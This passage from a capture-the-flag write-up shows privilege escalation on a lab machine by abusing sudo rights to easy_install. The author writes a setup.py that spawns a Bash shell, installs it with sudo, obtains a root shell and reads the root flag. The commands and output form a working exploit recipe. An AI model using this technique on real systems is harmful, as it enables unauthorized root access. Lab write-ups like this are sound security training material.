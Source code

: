 #### Exploit

Since `easy_install` is effectively running a Python script, getting execution from it is trivial. There’s a [GTFObins page](https://gtfobins.github.io/gtfobins/easy_install/) for this with some copy paste to get shell, but I’ll work through it on my own to better understand it.

`easy_install` needs an argument to tell if what to install:

```

developer@updown:~$ sudo easy_install
error: No urls, filenames, or requirements specified (see --help)

```

It can take a URL (so I could host something malicious on my machine and fetch it), but it can also just take a directory. I’ll create a directory:

```

developer@updown:~$ mkdir /tmp/0xdf
developer@updown:~$ cd /tmp/0xdf
developer@updown:/tmp/0xdf$

```

The malicious script goes into `setup.py`:

```

developer@updown:/tmp/0xdf$ echo -e 'import os\n\nos.system("/bin/bash")' > setup.py
developer@updown:/tmp/0xdf$ cat setup.py 
import os

os.system("/bin/bash")

```

In this case, I’m just having it import the os module and call `os.system` to run a Bash shell.

Now I just call `easy_install` pointing to that directory:

```

developer@updown:/tmp/0xdf$ sudo easy_install /tmp/0xdf/
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing 
Writing /tmp/0xdf/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/0xdf/egg-dist-tmp-ObdjVa
root@updown:/tmp/0xdf# id
uid=0(root) gid=0(root) groups=0(root)

```

And read `root.txt`:

```

root@updown:~# cat root.txt
a608663c************************

```
